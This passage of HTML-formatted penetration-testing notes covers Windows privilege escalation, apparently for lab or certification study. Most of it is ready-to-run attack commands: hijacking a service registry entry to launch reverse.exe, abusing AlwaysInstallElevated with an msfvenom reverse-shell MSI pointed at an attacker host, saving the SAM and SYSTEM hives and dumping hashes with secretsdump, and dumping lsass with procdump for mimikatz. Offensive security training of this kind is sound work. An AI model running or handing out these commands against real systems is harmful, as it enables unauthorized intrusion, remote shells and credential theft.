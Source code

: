 ```</p>
</ul>
</li>
<li><code>reg query {registry_path}</code></li>
<li><code>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v {file_path_entry} /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f</code></li>
<li>AlwaysInstallElevated<ul>
<li><code>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated</code></li>
<li><code>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated</code></li>
<li>If one of these works, do<ul>
<li><code>msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={port} --platform windows -f msi &gt; reverse.msi</code></li>
<li><code>msiexec /quiet /qn /i reverse.msi</code></li>
</ul>
</li>
</ul>
</li>
</ul>
<p><strong>Abusing Privileges to Execute Code as Privileged Users</strong></p>
<ul>
<li>Can either exploit applications, the kernel, or abuse privileges we have</li>
<li><code>whoami /priv</code></li>
<li>Privilege Abuse:<ul>
<li>If we have <code>SeImpersonatePrivilege</code>, <code>SeBackupPrivilege</code>, <code>SeAssignPrimaryToken</code>, <code>SeLoadDriver</code>, <code>SeTakeOwnershipPrivilege</code> or <code>SeDebugPrivilege</code>, we can sometimes perform operations in the security context of another user<ul>
<li>With the <code>SeBackupPrivilege</code> and <code>SeRestorePrivilege</code>, we can read arbitrary files with robocopy: <code>robocopy /b C:\&lt;path to file&gt; .\&lt;filename&gt;</code><ul>
<li>We can also just privesc via the following:</li>
<li><code>reg save hklm\sam C:\Users\{current_user}\sam</code></li>
<li><code>reg save hklm\system C:\Users\{current_user}\system</code><ul>
<li>The SAM and SYSTEM will usually be located here:<ul>
<li>C:\Windows\repair\SAM</li>
<li>C:\Windows\System32\config\RegBack\SAM</li>
<li>C:\Windows\System32\config\SAM</li>
<li>Can search with <code>dir /s {SAM/SYSTEM}</code></li>
</ul>
</li>
</ul>
</li>
<li><code>impacket-secretsdump -sam sam -system system LOCAL</code></li>
</ul>
</li>
<li>Use <a href="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/SharpUp.exe">SharpUp</a> to determine which privileges are abusable</li>
<li>With <code>SeDebugPrivilege</code><ul>
<li><code>procdump.exe -accepteula -ma lsass.exe lsass.dmp</code></li>
<li>Then, run <code>mimikatz</code> (run log so output is in txt) and run <code>sekurlsa::minidump lsass.dmp</code></li>
</ul>
</li>
<li>With <code>SeTakeOwnershipPrivilege</code><ul>
<li>Outlined here: <a href="https://academy.hackthebox.com/module/67/section/642">https://academy.hackthebox.com/module/67/section/642</a></li>
</ul>
</li>
</ul>
</li>
<li>Named pipes:<ul>
<li>Allow unrelated processes to share data between each other</li>
```